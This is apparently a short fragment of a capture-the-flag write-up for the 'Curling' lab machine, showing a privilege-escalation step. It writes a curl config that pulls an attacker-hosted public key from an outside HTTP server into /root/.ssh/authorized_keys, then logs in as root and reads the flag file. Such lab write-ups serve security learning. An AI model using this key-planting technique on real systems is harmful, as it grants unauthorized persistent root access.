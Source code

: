editing input to curl a public key and output to /root/.ssh/authorized_keys
```
floris@curling:~/admin-area$ echo 'url = "http://<ip>:8000/id_rsa.pub"' > input && echo 'output = "/root/.ssh/authorized_keys"' >> input
```

opening a http server on port 8000
```
$ python3 -m http.server 8000
```

```
$ ssh root@10.10.10.150

root@curling:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@curling:~# cat root.txt

<redacted>
```
